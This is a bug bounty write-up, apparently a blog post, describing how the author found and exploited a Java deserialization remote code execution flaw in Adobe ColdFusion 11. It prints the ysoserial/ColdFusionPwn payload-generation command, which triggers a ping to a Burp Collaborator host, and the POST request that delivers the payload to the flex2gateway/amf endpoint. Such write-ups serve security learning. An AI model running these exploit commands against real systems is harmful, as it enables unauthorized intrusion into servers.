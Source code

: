 ```yaml
---
title: "[EN] - Exploiting my first RCE"
date: 2020-07-20T19:00:00+02:00
draft: false
tags: ["BugBounty", "RCE", "Tips", "Writeup", "Adobe ColdFusion", "ColdFusion"]
---
```


Recently on a BugBounty program I came across my first RCE, discovered and exploited rather quickly on a solution with a vulnerability that I don't master at all : Java Deserialization

## Recon
Currently improving my recognition tool [AutoRecon](https://github.com/JoshuaMart/AutoRecon), originally intended to help me with subdomain enumeration, I also want to perform some recognition tasks that are quite annoying when you have to do it many times.

The scope in question is like `*.domain.tld`, after enumerating subdomains, I wanted to test new tools, in this case [Gau](https://github.com/lc/gau) which allows to retrieve URLs known through several sources. That's when I was asked to see a URL with the extension `.cfm`, which I don't know at all:

![](/images/2020/bounty/RCE_GAU.png)

A quick search will find that this extension corresponds to `ColdFusion Markup Language`

An access on the URL actually allowed me to confirm that it is indeed the Adobe ColdFusion 11 application that is used, but the design seemed quite old ... interesting.

## Search for known vulnerabilities
A quick search on ExploitDB allowed me to find an exploit:
![](/images/2020/bounty/RCE_ExploitDB.png)

Unfortunately this one wasn't very detailed, after several researches I found an article that details the vulnerability and its exploitation [Exploiting Adobe Coldfusion](https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html).

To make a long story short, the exploit is possible through a Java deserialization on the `flex2gateway/amf` endpoint, after verification, it was available and a GET request returned a simple blank page.

## Exploitation
According to the article, exploitation therefore requires only two things:
- [Ysoserial](https://github.com/frohoff/ysoserial) for Java deserialization
- [ColdFusionPWn](https://github.com/frohoff/ysoserial) for exploitation

Then we can finally create our payload, in the following example, if the poc is successful, I will receive a ping on my burp collaborator, the output of the order is recorded in the file `poc.ser` :
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'ping {your_collaborator}.burpcollaborator.net' poc.ser`

So all that's left to do is to send it as a POST on the endpoint `flex2gateway/amf` :

`http post https://xyz.domain.tld/flex2gateway/amf Content-Type:application/x-amf < poc.ser`

And then I got the ping on my burp collaborator:

![](/images/2020/bounty/RCE_PoC.png)

## Conclusion

This is my first RCE found on a private program, really interesting because it exploits a known vulnerability with known exploits, but rather than launching the first exploit I could get my hands on, I preferred to document myself and look for something that would give me the impression to have a better mastery of the exploit even if it was wasting my time.

In fact, I discovered the vulnerability late one night, before exploiting it only the next day because I didn't want to do anything harmful since it's production.

Nevertheless, [Gau](https://github.com/lc/gau) is really a must-have and if you don't count the time spent reading / understanding the vulnerability, the research and exploitation took me less than 30min.